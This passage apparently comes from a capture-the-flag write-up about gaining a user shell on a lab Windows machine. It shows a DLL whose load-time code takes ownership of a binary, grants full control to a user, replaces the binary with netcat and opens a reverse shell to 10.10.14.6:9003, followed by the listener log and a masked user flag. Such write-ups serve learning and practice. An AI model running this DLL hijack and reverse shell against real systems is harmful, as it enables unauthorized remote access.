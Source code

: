 #### Dll

I’ll update my Dll code to do the steps above:

```

    case DLL_PROCESS_ATTACH:
        system("cmd.exe /c takeown /F C:\\share\\Bginfo64.exe");
        system("cmd.exe /c cacls C:\\share\\Bginfo64.exe /E /G ginawild:F");
        system("cmd.exe /c copy C:\\inetpub\\wwwroot\\data\\sites\\1\\media\\nc64.exe C:\\share\\Bginfo64.exe");
        system("cmd.exe /c C:\\share\\Bginfo64.exe -e cmd 10.10.14.6 9003");

```

For `takeown`, the syntax is `/f [filename]` ([docs](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/takeown)).

For `cacls`, `/E` says “edit ACL instead of replacing it”, and `/G [user:<perm>]` grants the specified rights to that user. So in this case, full control to GinaWild ([docs](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/cacls)).

#### Shell

I’ll upload that Dll over `7-zip64.dll` and wait. When the task runs, there’s a connect at my listening `nc`:

```

oxdf@hacky$ rlwrap -cAr nc -lnvp 9003
Listening on 0.0.0.0 9003
Connection received on 10.10.11.147 56824
Microsoft Windows [Version 10.0.20348.643]
(c) Microsoft Corporation. All rights reserved.

c:\share>

```

And I can finally get `user.txt`:

```

c:\Users\GinaWild\Desktop>type user.txt
c7de9935************************

```

## Shell as bpassrunner

### Enumeration

#### Desktop Link

There’s not much else in GinaWild’s home directory, but there is a file worth noting in `C:\Users\Public\Desktop`:
